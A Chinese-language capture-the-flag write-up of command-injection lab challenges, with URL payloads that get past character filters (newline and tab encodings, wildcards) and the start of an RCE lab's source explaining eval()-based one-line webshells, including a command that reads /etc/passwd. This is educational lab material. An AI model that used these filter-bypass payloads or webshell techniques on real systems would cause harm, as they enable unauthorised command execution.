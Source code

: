 > 过滤了 | 和 &
>

```php
;ls
;cat flag_12652570514870.php
//右键看源码即可得到flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736930641529-a3329b8b-4428-45fb-b08b-5baf95cd542d.png)

## 综合练习
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736930771508-b3608053-7eaa-4ed5-a829-5f31d0ce6b5c.png)

> 过滤了 |  &  ；空格   /   cat  flag  ctfhub
>

> ;  用  %0a 替代（命令分隔符）
>
> 空格用 %09 替代
>
> flag  用  f* 替代
>

在 url 栏中输入

```php
/?ip=%0Als
/?ip=%0Als%09f*
/?ip=%0Acd%09f*%0Atac%09f*
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737291819291-756c2694-8f01-4de6-a8cf-2befd2134c15.png)

# RCE-labs
## Level 0  代码执行&命令执行  
> flag ，点击就送
>

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737266652636-70993043-7e02-4fd2-ae56-969296d86133.png)

## Level 1  一句话木马和代码执行  
```php
<?php 
  include ("get_flag.php");
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 一句话木马和代码执行 --- 

「代码执行(Code Execution)」 在某个语言中，通过一些方式(通常为函数或者方法调用)执行该语言的任意代码的行为，如PHP中的`eval()`函数或Python中的`exec()`函数。

当漏洞入口点可以执行任意代码时，我们称其为代码执行漏洞 —— 这种漏洞包含了通过语言中对接系统命令的函数来执行系统命令的情况，比如 eval("system('cat /etc/passwd')";); 也被归为代码执行漏洞。

我们平时最常见的一句话木马就用的 eval() 函数，如下所示（一般情况下，为了接收更长的Payload，我们一般对可控参数使用POST传参）

```